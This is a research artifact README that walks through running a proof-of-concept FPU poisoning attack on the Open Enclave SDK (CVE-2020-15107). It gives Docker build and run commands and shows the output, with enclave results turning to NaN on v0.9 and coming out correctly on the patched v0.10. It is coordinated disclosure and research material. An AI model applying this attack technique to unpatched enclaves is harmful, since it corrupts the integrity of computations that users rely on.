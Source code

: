 # Proof of concept attack on OpenEnclave

[![build status](https://travis-matrix-badges.herokuapp.com/repos/fritzalder/faulty-point-unit/branches/master/5)](https://travis-ci.org/github/fritzalder/faulty-point-unit)

Open Enclave were the initial project to address the core issue described in the paper by using `ldmxcsr/cw` instructions. Following this patch, we started to investigate the issue described in the paper. During our investigation, we discovered a subclass of the issue, namely the MMX attack vector.

## Background and affected runtimes

The trusted enclave entry code reset the x87 FPU control word and SSE MXCSR control registers. We observed, however, that Open Enclave used `ldmxcsr/cw` instructions, instead of a full `xrstor` (as patched in e.g. in the Intel SGX-SDK):

 <https://github.com/openenclave/openenclave/commit/efe75044d215d43c2587ffd79a52074bf838368b>

This left a possibility to corrupt enclaved floating point operations (using the x87 FPU) by issuing MMX instructions in untrusted code before enclave entry. As of publication of this artifact, Microsoft has also decided to apply a full `xrstor` instruction to mitigate this here described issue (see below for details on the patch and associated CVE).

## Building and running the proof-of-concept exploit

The `hello-fpu` directory contains a minimal proof-of-concept OE application developed with an unmodified vulnerable Open Enclave SDK. The PoC shows that untrusted code could affect the integrity (expected outcome) of x87 floating point operations by silently replacing them with `NaN` values.

**Note (Docker simulator).** Building OpenEnclave dependencies can be tricky. We therefore recommend to use the Docker container provided by the OpenEnclave team with all dependencies pre-installed, as documented [https://github.com/openenclave/openenclave/blob/v0.9.0/docs/GettingStartedDocs/Contributors/BuildingInADockerContainer.md](here). This is the easiest way to run the example exploit in the OE simulator.

**Note (OE packages).** For convenience, the current directory includes prebuilt Debian packages for both the vulnerable OE v0.9 and the patched OE v0.10. These are _unmodified_ OE packages that can alternatively also be downloaded from the [official OE release page](https://github.com/openenclave/openenclave/releases).

Proceed as follows to run the proof-of-concept FPU poisoning attack on the vulnerable and patched OE versions.

```bash
$ docker run -i -t oeciteam/oetools-full-18.04

# 1. Clone faulty-point-unit repo
root@oe-docker# cd ~
root@oe-docker# git clone https://github.com/fritzalder/faulty-point-unit.git
root@oe-docker# cd faulty-point-unit/02_table2_affected_runtimes/openenclave/
root@oe-docker# git submodule init && git submodule update

# 2. Install vulnerable OE SDK
root@oe-docker# sudo dpkg -i Ubuntu_1804_open-enclave_0.9.0_amd64.deb
root@oe-docker# source /opt/openenclave/share/openenclave/openenclaverc

# 3. Run proof-of-concept FPU poisoning attack in OE simulation mode
root@oe-docker# cd hello-fpu/ && make
root@oe-docker# make simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Running in sim mode
Hello world from the enclave
Result = -nan

## 4. Install patched OE SDK
root@oe-docker# sudo dpkg -i ../Ubuntu_1804_open-enclave_0.10.0_amd64.deb
root@oe-docker# source /opt/openenclave/share/openenclave/openenclaverc

# 5. Run proof-of-concept FPU poisoning attack in OE simulation mode
root@oe-docker# make clean && make
root@oe-docker# make simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Running in sim mode
Hello world from the enclave
Result = 0.246914
```

## Disclosure and mitigation

This issue was acknowledged by Microsoft and assigned CVE-2020-15107 (OpenEnclave security advisory [GHSA-7wjx-wcwg-w999](https://github.com/openenclave/openenclave/security/advisories/GHSA-7wjx-wcwg-w999)). Our proposed mitigation of using an `xrstor` was addressed and incorporated in version 0.10.0.
